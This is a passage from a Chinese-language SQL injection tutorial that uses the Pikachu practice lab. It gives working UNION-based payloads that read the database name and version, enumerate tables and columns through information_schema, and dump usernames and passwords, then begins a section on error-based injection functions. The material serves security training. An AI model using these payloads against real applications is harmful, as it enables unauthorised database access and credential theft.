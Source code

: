 注入代码如下：（以pikachu平台为例）

①利用order by判断主查询字段数：3

②查数据库名：

```sql
a' union select database(),user(),version()#
```

![](https://s2.loli.net/2022/03/18/myzfucpKJ9nIUhq.png)

③查表名：查tables库中名字为piakchu中的表有哪些

```sql
a' union select table_schema,table_name,3 from information_schema.tables where table_schema='pikachu'#
```

![](https://s2.loli.net/2022/03/18/1h4kPyAQNo6CRuj.png)

④查字段名：查columns库中字段名为user库中的内容有哪些

```sql
a' union select table_name,column_name,3 from information_schema.columns where table_name='users'#
```

![](https://s2.loli.net/2022/03/18/NaimuFle4IjhUnJ.png)

⑤查pikaqu库中的user表User和Password字段内容

```sql
a' union select username,password,3 from users#
```

![](https://s2.loli.net/2022/03/18/qCPU3B2hM1lLyKS.png)

#### 3、基于函数报错注入

测试表：

```
mysql> select * from users;
+------+----------+----------+-------+-------+
| id   | username | password | privs | email |
+------+----------+----------+-------+-------+
|    1 | zhangsan | zhangsan |  NULL | NULL  |
|    2 | lisi     | wangwu   |  NULL | NULL  |
|    3 | wangwu   | wangwu   |  NULL | NULL  |
+------+----------+----------+-------+-------+
```

三个常用的函数：

1. updatexml(XML_document,XPath_string,new_value);

2. extravalue();

3. floor();
